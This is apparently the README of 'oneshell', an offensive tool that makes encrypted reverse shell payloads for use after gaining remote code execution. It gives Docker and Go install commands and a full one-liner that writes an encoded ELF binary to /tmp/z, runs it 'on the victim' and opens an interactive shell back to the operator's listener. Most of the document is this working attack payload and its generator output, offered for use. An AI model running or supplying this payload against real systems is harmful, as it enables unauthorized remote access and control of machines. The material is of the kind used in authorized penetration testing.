 # One Shell To Rule Them All

# Quick start

To host a listener on the `example.com` machine using TCP port 9001:

**Docker**

```bash
docker run --rm -it -p 9001:9001 tantosec/oneshell -t example.com -p 9001
```

**Local install**

```bash
go install github.com/tantosec/oneshell@latest
oneshell -t example.com -p 9001
```

# Why?

Let's say that you have achieved remote code execution on a target machine and are looking to escalate your privileges. You might think to establish a reverse shell to make this process easier.
However, being a security professional, you want your connection to be encrypted to prevent data being transferred insecurely.

It turns out that there are a few ways to do this, mostly involving the `openssl` or `ncat` tools. What if you don't have these tools on the target? One solution is to download them over the internet using `curl` or `wget`. But what if the target doesn't have these binaries either? The base `ubuntu` Docker image doesn't.

"One Shell To Rule Them All", or `oneshell` for short, is a tool that can solve this problem. It does this by running an encrypted reverse shell using only the `echo` and `chmod` commands.

# Detailed requirements for a successful payload

* Target can connect to your via TCP
* Shell execution on the target (for example `system` in PHP)
    * This will allow using the `echo` inbuilt shell command
* x86_64 CPU (Arm64 support coming soon)
* `chmod` binary located on path
* The ability to write to the following file paths: `/tmp/x`, `/tmp/y`, `/tmp/z`

These conditions cover almost all server setups.

# Basic Usage

If you want your payload to connect back to `localhost` on port `9001`, run the following command:

`oneshell -t localhost -p 9001`

You should receive output similar to the following:

```
Generating temporary MTLS certificates...
Payload connects to 127.0.0.1:9001
Copy the following command and run on victim:

zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z

2024/07/15 15:51:17 Listening for connections on 0.0.0.0:9001
```

Copy the part that says

```
zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z
```

and run it on the victim. You should receive an interactive shell connection on the server, which will be secured with mutual TLS.

# References

* Basis for Tiny ELF file from [https://nathanotterness.com/2021/10/tiny_elf_modernized.html](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
* AES implementation sourced from [https://github.com/mko-x/SharedAES-GCM/tree/master/Sources](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
